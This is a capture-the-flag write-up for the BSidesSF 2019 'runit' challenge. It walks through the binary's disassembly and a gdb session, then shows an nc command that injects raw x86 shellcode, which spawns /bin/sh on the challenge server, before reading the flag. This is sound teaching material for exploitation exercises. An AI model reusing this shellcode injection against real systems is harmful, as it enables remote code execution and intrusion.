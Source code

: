 # runit
slopey112 - 3/4/19

We are given a typical binary executable. Let's first see what it does.
```
root@kali:~/Crack Me# ./runit
Send me stuff!!
asdfasdf
Segmentation fault
```
Executing it, we feed the program input, but for some reason we get a segmentation fault. Recall that a segmentation fault occurs when you try to access a region of memory that doesn't exist. We'll keep that in mind as we proceed.

Now, let's disassemble the binary.
```
   0x0804854b <+0>:	lea    ecx,[esp+0x4]
   0x0804854f <+4>:	and    esp,0xfffffff0
   0x08048552 <+7>:	push   DWORD PTR [ecx-0x4]
   0x08048555 <+10>:	push   ebp
   0x08048556 <+11>:	mov    ebp,esp
   0x08048558 <+13>:	push   ecx
   0x08048559 <+14>:	sub    esp,0x14
   0x0804855c <+17>:	sub    esp,0x8
   0x0804855f <+20>:	push   0x0
   0x08048561 <+22>:	push   0x0
   0x08048563 <+24>:	push   0x22
   0x08048565 <+26>:	push   0x7
   0x08048567 <+28>:	push   0x400
   0x0804856c <+33>:	push   0x0
   0x0804856e <+35>:	call   0x8048410 <mmap@plt>
   0x08048573 <+40>:	add    esp,0x20
   0x08048576 <+43>:	mov    DWORD PTR [ebp-0x10],eax
   0x08048579 <+46>:	sub    esp,0xc
   0x0804857c <+49>:	push   0xa
   0x0804857e <+51>:	call   0x80483e0 <alarm@plt>
   0x08048583 <+56>:	add    esp,0x10
   0x08048586 <+59>:	mov    eax,ds:0x804a034
   0x0804858b <+64>:	push   0x0
   0x0804858d <+66>:	push   0x2
   0x0804858f <+68>:	push   0x0
   0x08048591 <+70>:	push   eax
   0x08048592 <+71>:	call   0x8048430 <setvbuf@plt>
   0x08048597 <+76>:	add    esp,0x10
   0x0804859a <+79>:	mov    eax,ds:0x804a030
   0x0804859f <+84>:	push   0x0
   0x080485a1 <+86>:	push   0x2
   0x080485a3 <+88>:	push   0x0
   0x080485a5 <+90>:	push   eax
   0x080485a6 <+91>:	call   0x8048430 <setvbuf@plt>
   0x080485ab <+96>:	add    esp,0x10
   0x080485ae <+99>:	sub    esp,0xc
   0x080485b1 <+102>:	push   0x8048690
   0x080485b6 <+107>:	call   0x80483f0 <puts@plt>
   0x080485bb <+112>:	add    esp,0x10
   0x080485be <+115>:	sub    esp,0x4
   0x080485c1 <+118>:	push   0x400
   0x080485c6 <+123>:	push   DWORD PTR [ebp-0x10]
   0x080485c9 <+126>:	push   0x0
   0x080485cb <+128>:	call   0x80483d0 <read@plt>
   0x080485d0 <+133>:	add    esp,0x10
   0x080485d3 <+136>:	mov    DWORD PTR [ebp-0xc],eax
   0x080485d6 <+139>:	cmp    DWORD PTR [ebp-0xc],0x0
   0x080485da <+143>:	jns    0x80485f6 <main+171>
   0x080485dc <+145>:	sub    esp,0xc
   0x080485df <+148>:	push   0x80486a0
   0x080485e4 <+153>:	call   0x80483f0 <puts@plt>
   0x080485e9 <+158>:	add    esp,0x10
   0x080485ec <+161>:	sub    esp,0xc
   0x080485ef <+164>:	push   0x1
   0x080485f1 <+166>:	call   0x8048400 <exit@plt>
   0x080485f6 <+171>:	mov    eax,DWORD PTR [ebp-0x10]
   0x080485f9 <+174>:	call   eax
   0x080485fb <+176>:	mov    eax,0x0
   0x08048600 <+181>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x08048603 <+184>:	leave  
   0x08048604 <+185>:	lea    esp,[ecx-0x4]
   0x08048607 <+188>:	ret
```
We are given way more information than we actually need. There's a lot going on here, but we see some interesting things.

1. The `alarm` call gives us 10 seconds to access the binary. It isn't the worst thing that could happen, but just very annoying.
2. The `read` call's file descriptor is `stdin`, so it is the read function which takes care of IO. The interesting consequence here is that we won't see any buffer overflows.
3. There is a call to `eax` at `0x080485fb`. Given that we saw a segmentation fault, this makes things very interesting.

We'll set a break point right at that call function, and we'll see what's in `eax`.
```
(gdb) b *0x080485f9
Breakpoint 1 at 0x80485f9
(gdb) r
Starting program: /root/Crack Me/runit
Send me stuff!!
ABCD

Breakpoint 1, 0x080485f9 in main ()
(gdb) x/s $eax
0xf7ffb000:	"ABCD\n"
```
Sure enough, it's the input we gave. Given that it's a call to `eax`, we can simply inject shell code instead. Let's open up our [trusty shell code](http://shell-storm.org/shellcode/files/shellcode-811.php) and we'll inject that into the program.
```
root@kali:~/quintuplecs/BSidesSF2019# (python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'"; cat) | nc runit-5094b2cb.challenges.bsidessf.net 5252
Send me stuff!!
cat /home/ctf/flag.txt
CTF{you_ran_it}
```
